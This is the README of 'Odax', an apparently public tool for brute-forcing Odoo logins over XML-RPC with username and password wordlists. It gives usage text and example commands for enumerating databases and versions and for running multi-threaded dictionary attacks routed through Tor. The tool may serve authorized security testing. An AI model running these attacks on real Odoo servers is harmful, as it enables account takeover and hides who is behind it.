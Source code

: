       ___  ____  _  _ __  __
     / _ \|  _ \| || |\ \/ /
    | | | | | | | || |_\  / 
    | |_| | |_| |__   _/  \ 
     \___/|____/   |_|/_/\_\
                        
    Odoo Dictionary Attack XMLRPC Tool
	Tested on Odoo v8, v9, v10

# Usage:
```
usage: odax.py [-h] [-v] [-q] [-vv] [--log logfile] [--enum-db]
               [--enum-version] [--db DB] [-u USERFILE] [-p PASSFILE] [-c]
               [-t Threads] [--tor TOR]
               host port

optional arguments:
  -h, --help            show this help message and exit
  -v                    Show current version
  -q                    Do not print the banner
  -vv                   Verbose mode (default false). Inaccurate using threads
  --log logfile         Log all output to the path (overwrite). Note: can be
                        used without -vv, verbose output will be included in
                        log

Enumeration:
  --enum-db             Enumerate, if possible, all databases
  --enum-version        Enumerate odoo's version

Options:
  --db DB               Target Odoo database. Example: --db=db1 or --db db1
  -u USERFILE, --users USERFILE
                        Path to USERNAMES wordlist
  -p PASSFILE, --pass PASSFILE
                        Path to PASSWORDS wordlist
  -c                    Continue the attack even after having found a valid
                        user and password
  -t Threads, --threads Threads
                        Number of threads, default 2 - max 64

Proxy:
  --tor TOR             Use tor proxy. Example: --tor=localhost:9050 or --tor
                        localhost:9050

Parameters:
  host                  Odoo server Hostname or IP Address
  port                  Odoo server Port to connect

Examples:
    Enumerate Databases without banner (-q):
    $ ./odax.py -q --enum-db <host_name/ip> <port>

    Enumerate Versions using TOR:
    $ ./odax.py --enum-version --tor localhost:9050 odoo-server-test.com 8069

    Dictionary attack using 10 threads:
    $ ./odax.py --threads=10 --db db1 -u <path> -p <path> odoo-server-test.com 8069

    Dictionary attack with verbose mode and logging:
    $ ./odax.py -vv --db=db1 --log=<path> --users <path> --pass <path> odoo-server-test.com 8069

    Dictionary attack and continue the attack using TOR:
    $ ./odax.py -c --db db1 --tor=localhost:9050 --users <path> --pass <path> odoo-server-test.com 8069
```

# Setup:

  <h3>Debian based systems:</h3>

```
$ sudo apt-get update && sudo apt-get install python-pip -y

$ git clone https://github.com/jcarabantes/odax.git

$ cd odax/

$ sudo apt-get install python-socksipy

$ python -m pip install -r requirements.txt
```

# Contribution:
  <h4>If you have any ideas about improvements in Odax, feel free to contribute.</h4>
  
  * Contact me through ([@javicarabantes](https://twitter.com/javicarabantes))

# Disclaimer:
  I'm not responsible for anything you do with this program, so please only use it for good and educational purposes.

